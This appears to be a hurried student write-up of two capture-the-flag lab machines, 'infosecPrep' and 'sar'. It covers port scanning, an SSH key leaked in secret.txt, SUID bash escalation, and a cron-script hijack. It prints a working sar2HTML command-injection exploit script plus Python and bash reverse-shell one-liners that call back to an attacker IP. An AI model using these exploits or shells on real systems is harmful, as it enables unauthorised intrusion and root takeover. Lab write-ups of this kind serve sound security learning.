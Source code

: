 # infosecPrep
- first of all i scann the open port with nmap
  1. 22 and 80 port is open
  2. with nmap option you can see the file that belongs to the website : robots.txt, secret.txt
  3. open the file secret.txt && decode it to the base64 (cause have equal in end of file)
- connect to the ssh using private key
```
  ssh -i private_key oscp@ip_address
```
- checking the file system using linePeas
  1. you will see /bin/bash have SUID bash binary
  2. after execute it with option -p you will bcome the root

[My refference about privilege escalation](https://delinea.com/blog/linux-privilege-escalation#:~:text=On%20Linux%20systems%2C%20privilege%20escalation,system%20account%20with%20limited%20privileges.)

# sar machine
  - after scanning port i don't see anything important
  - so by curiousity i try to enter to robots.txt then sar2HTML
  - the top left corner i see the version of something that i don't know 
  - i search for sar2html with the version in site google show up her the db for exploit
 
 ```
 import requests
import re
from cmd import Cmd

url = input("Enter The url => ")

class Terminal(Cmd):
    prompt = "Command => "
    def default(self, args):
        exploiter(args)

def exploiter(cmd):
    global url
    sess = requests.session()
    output = sess.get(f"{url}/index.php?plot=;{cmd}")
    try:
        out = re.findall("<option value=(.*?)>", output.text)
    except:
        print ("Error!!")
    for ouut in out:
        if "There is no defined host..." not in ouut:
            if "null selected" not in ouut:
                if "selected" not in ouut:
                    print (ouut)
    print ()

if __name__ == ("__main__"):
    terminal = Terminal()
    terminal.cmdloop()
 ```
  - i run this code to insert in it **reverse shell** (python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip_adress",port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])')
  - and listen to the port 
  - now i have access to it
  - using linPeas script you will find there is a file inside crontab run every 5 minute 
  - the file that execute it have inside it another file that we have the access to it
  - we insert in write.sh ** bash -i >& /dev/tcp/192.168.1.65/9999 0>&1 ** and listen to 9999
  - now we have the access to the root
  
  # im not fammiliar with this type of write up && the deadline is almost finish , that's why i wrote it like that !!
